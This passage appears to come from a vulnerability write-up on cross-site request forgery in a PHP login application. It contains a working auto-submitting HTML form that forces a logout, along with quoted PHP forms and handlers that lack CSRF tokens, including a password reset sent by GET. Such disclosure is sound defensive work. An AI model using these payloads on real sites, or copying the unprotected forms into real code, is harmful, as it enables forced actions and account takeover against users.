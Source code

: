2. Logout Attack:
   - Create a malicious page with:
   ```html
   <form id="logoutForm" action="http://localhost/includes/logout.inc.php" method="POST">
       <input type="hidden" name="submit" value="1">
   </form>
   <script>
       document.getElementById('logoutForm').submit();
   </script>
   ```
   - When a logged-in user visits this page, they will be logged out

## Vulnerability Analysis
The vulnerability exists because:
1. Forms lack CSRF tokens:
   ```php
   // In change.php
   <form class="signup-form" action="includes/reset.inc.php" method="GET">
       <input type="password" name="old" value="" placeholder="Old Password">
       <input type="password" name="new" value="" placeholder="New Password">
       <input type="password" name="new_confirm" value="" placeholder="Confirm New Password">
       <button type="submit" name="reset" value="yes">Reset</button>
   </form>
   ```

2. No validation of request origin:
   ```php
   // In reset.inc.php
   if (!isset($_GET['reset'],$_SESSION['u_uid'])) {
       $_SESSION['resetError'] = "Error code 1";
       header("Location: ../index.php");
   }
   ```

3. Session-based authentication without CSRF protection:
   ```php
   // In header.php
   echo '  <form class="" action="includes/login.inc.php" method="POST">
       <input type="text" name="uid" value="" placeholder="Username">
       <input type="password" name="pwd" value="" placeholder="Password">
       <button type="submit" name="submit"> Login </button>
   </form>';
   ```

## Impact
- Unauthorized password changes
- Forced logouts
- Account takeover
- Potential for:
  - Identity theft
  - Unauthorized actions
  - Session hijacking
  - Data manipulation
